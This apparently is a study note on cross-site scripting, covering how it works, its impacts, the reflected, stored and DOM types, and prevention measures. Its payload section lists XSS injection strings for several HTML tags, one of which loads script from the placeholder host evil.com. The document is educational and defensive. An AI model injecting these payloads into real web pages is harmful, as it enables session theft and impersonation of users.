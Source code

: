# Cross Site Scripting (XSS) 
XSS is one of most common and dangerous types of vulnerabilities in web apps. It can lead to stolen of modified user data! XSS is a client-side code injection technizue where attacker executes malicious scripts by inserting code into a legit and trusted web page or web app. 

### Where does XSS Occur?
On web pages and web apps. Common vulnerable vehicles to deliver malicious scripts include forums, message boards, and web pages that allow comment. 

### Who is Vulnerable to XSS?
Any web page or app that uses **unsanitized** user input in the output it generates. 

### How Does XSS Work?
XSS attacks are possible in VBScript, ActiveX, Flash, and even CSS. Most common in Javasript b/c JS is fundamental to most browsing experiences. 

- Vulnerable website needs to directly include user input in it's pages. Attacker inserts malicious string that is treated as source code by victim's browser. When victim's page loads, malicious code is executed. 

No difference between HTML code that needs to be rendered, and input we sent out. Browser acceptsout input without realizing that there's a script.


### What Damage Can XSS Cause ?
Malicious JS can access to all object that web page has access to
- Session cookies. Attacker can impersonate user, perform actions of behalf of user, and gain access to user's sensitive data. 
- JS can read browser DOM and modify it. 
- JS cann use XMLHttpRequest object to send HTTP requiest with arbitrary content to arbitrary destinations 
- JS can use HTML5 APIs to access geolocation, webcase, microphone, and even specific files 
- Js can edit page styles
- Clickjacking (tricking user into clicking something different from what user perceives)
- Autofill / keychain data

#### Same Origin Policy 
A policy that stops one website from reading or writing data to another. Checks for three things: *Protocol, Host, Port* 

## XSS Attack Vectors 
### <script> tag 
Most straightforward XSS payload. Can reference external JS cde or can embed code within script tage itself. 
`<script src=http://evil.com/xss.js></script>`
`<script> alert("wahoo gotcha"); </script>`

### JS Events 
`<body onload=alert("XSS")>`

### `<body>` tag 
`<body background="javascript:alert("XSS")>`

### `<img>` tag 
`<img src="javascript:alert("XSS");">`

### `<input>` tag
`<input type="image" src="javascript:alert('XSS');">`


### `<link>` tag 
`<link rel="stylesheet" href="javascript:alert('XSS');">`

### `<table>` tag 
`<table background="javascript:alert('XSS')">`

### `<div>` tag 
`<div style="background-image: url(javascript:alert('XSS'))">`

# Types of XSS

### Refelcted XSS 
AKA "non-persistent attacks." A common type of XSS attack where input is reflected back in response. Only requires that malicious script be embedded into a link. Do not typically have the same reach as stored XSS attacks. 

### Stored XSS 
AKA "persistent attacks" tends to have more reach than reflected xss because unsanitized input stored in database. Attacker can exploit this by entering malicious code into publicly requestable resource that victim runs. 

### DOM XSS
Rarest type of xss attack becuase easiest to defend against (using templates provided in JS frameworks prevents this vulnerability). Happens entirely on client-side. User's input lands directly inside dangerous part of JS code. Attackers exploit URI fragments (pieuce of url after `#`)

# How to Prevent XSS
Bottom line: Sanitize your input
- **Train and Maintain Awareness:** Be aware of the risks 
- **Distrust User Input:** Treat all user input as untrusted, including input from authenticated and/or internal users
- **Escape/Encode:** Use appropriate escaping/ encoding techniques. Use existing libraries for escaping, don't write your own unless absolutely necessary
- **Sanitize:** Use trusted verified library to pare and clean HTML if input needs to contain HTML b/c escaping/encoding would break valid tags
- **HTTP Only Flag:** Set HttpOnly flag for cookies so they arent accessible via client-side JS
- **Content Security Policy:** Use content security policy (CSP), an HTTP response header that lets you declare dynamic resources that are allowed to load dependinng on request soruce. 

# Resources 
- https://www.acunetix.com/websitesecurity/cross-site-scripting/
- https://www.acunetix.com/blog/articles/preventing-xss-attacks/
- https://xss-game.appspot.com/